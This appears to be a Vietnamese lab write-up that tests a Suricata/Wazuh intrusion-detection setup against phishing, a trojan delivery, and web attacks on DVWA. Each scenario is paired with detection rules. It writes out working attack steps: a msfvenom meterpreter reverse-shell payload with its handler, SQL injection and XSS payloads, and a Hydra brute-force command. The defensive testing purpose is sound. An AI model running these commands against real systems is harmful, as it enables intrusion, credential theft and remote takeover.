Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
![Rule set](Image/Ruleset.png)  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
![](Image/KB1_1.png)  
  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
![](Image/KB1_2.png)  
  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy kẻ tấn công
![](Image/KB1_3.png)  
![](Image/KB1_4.png)  
  
Rule để cảnh báo:  
alert tls any any -> any any (msg:"[HUNTING] Phising detect"; tls_sni; content:"trycloudflare.com"; nocase; classtype:policy-violation; sid:4000002; rev:1;)  
  
Giải thích rule:  
- tls_sni: kiểm tra trường SNI (Server Name Indication) trong TLS handshake  
- content:"trycloudflare.com": phát hiện người dùng đang truy cập vào miền này (thường dùng để ẩn IP thật khi phishing)  
- nocase: không phân biệt chữ hoa/thường  
- classtype:policy-violation: vi phạm chính sách (truy cập tên miền bị cấm)
  
Phía suricata  
![](Image/KB1_5.png)  
  
Phía Wazuh  
![](Image/KB1_6.png)  
  
![](Image/KB1_7.png)  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.39 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.39 ( máy tấn công )  
set LPORT 4444  
exploit  
  
![](Image/KB2_1.png)  
  
![](Image/KB2_2.png)  
  
Mở port 80
![](Image/KB2_3.png)  
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 
![](Image/KB2_4.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"[Trojan EXE Download Detected - MZ Header]"; flow: to_client, established; file_data; content:"MZ"; depth:2; classtype:trojan-ac tivity; sid:1002005; rev:1;)  
  
Giải thích rule:  
- file_data: cho phép Suricata kiểm tra nội dung file trong HTTP response  
- content:"MZ": MZ là chữ ký đầu tiên của file .exe (Windows executable)  
- depth:2 : chỉ kiểm tra 2 byte đầu tiên của file  
- flow: to_client: dữ liệu từ server trả về client  
- classtype:trojan-activity: hoạt động phần mềm độc hại
  
Phía suricata  
![](Image/KB2_5.png)  
  
Phía Wazuh
![](Image/KB2_6.png)  
  
## Kịch bản 3: tấn công web
Mục tiêu:  
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web  
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát  
Môi trường kiểm thử: website DVWA  
  
### SQL injection
Dùng các payload sau để kiểm tra SQL injection:  
‘ OR 1=1#  

' union select table_name,null from information_schema.tables#  

Rule cảnh báo:  
alert http any any -> any any (msg:"[ALERT] SQL Injection Keywords Detected"; flow: to_server, established; content:"'"; http_uri; pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i"; classtype:web-application-attack; sid:1000021; rev:3;)  
  
Giải thích rule:  
- flow: to_server, established: lưu lượng từ client đến server qua kết nối HTTP đã thiết lập  
- content:"'" + http_uri: kiểm tra có dấu ' trong URI  
- pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i": Regex tìm các pattern SQL Injection như ' or 1=1, --, #, %27, union select  
- classtype:web-application-attack: tấn công ứng dụng web
  
Phía suricata  
  
Phía Wazuh  
  
### XSS (Reflected, Restored)
#### XSS Reflected
Payload XSS Reflected  
Chèn <svg onload=alert('BugBot19 was here')> vào ô What’s your name  

  
Rule cảnh báo:  
alert http any any -> any any (msg:"Reflected XSS attempt - <script>"; content:"<script>"; nocase; http_uri; sid: 1001001; rev:1;)  
alert http any any -> any any (msg:"Reflected XSS attempt - <img src=x onerror>"; content:"<img src=x onerror"; nocase; http_uri; sid:1001002; rev:1;) alert http any any -> any any (msg:"Reflected XSS attempt - alert("; content:"alert("; nocase; http_uri; sid:1001003; rev:1;)  

Giải thích rule:  
- http_uri: kiểm tra trên phần URI  
- content:"<script>", "<img src=x onerror", "alert(": các payload XSS phổ biến  
- nocase: không phân biệt hoa thường  
  
Phía suricata
Phía Wazuh  
#### XSS Restored
Payload XSS Restored  
Chèn <script>alert(document.domain)</script> vào ô Message  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Stored XSS Detected in HTTP response"; content:"<script>"; nocase; http_server_body; sid:1001004; rev:1;)  
alert http any any -> any any (msg:"Stored XSS Detected - <img src=x onerror>"; content:"<img src=x onerror"; nocase; http_server_body; sid: 1001005; rev:1;)  

Giải thích rule:  
- http_server_body: kiểm tra nội dung phần body trả về từ server
- content:"<script>", "<img src=x onerror": payload XSS điển hình

Phía suricata  
Phía Wazuh  
### Brute Force
Dùng công cụ Hydra để triển khai brutefoce:  
hydra -l admin -P /usr/share/wordlists/rockyou.txt (IP nạn nhân) http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low; PHPSESSID=(Session của kẻ tấn công):F=Username and/or password incorrect."  

Rule cảnh báo:  
alert http any any -> any any (msg:"Brute Force Attempt to DVWA (GET)"; flow: to_server,established; content: "GET"; http_method; content:"/vulnerabilities/brute/"; http_uri; threshold: type both, track by_src, count 5, seconds 10; sid:1000011; rev:1;)  

Giải thích rule:  
- http_method: GET + http_uri: "/vulnerabilities/brute/": yêu cầu GET đến endpoint brute-force  
- threshold: nếu 1 IP gửi >=5 yêu cầu trong 10 giây, sẽ trigger alert  
- track by_src: theo dõi theo địa chỉ IP nguồn (client)

Phía suricata  
Phía Wazuh  
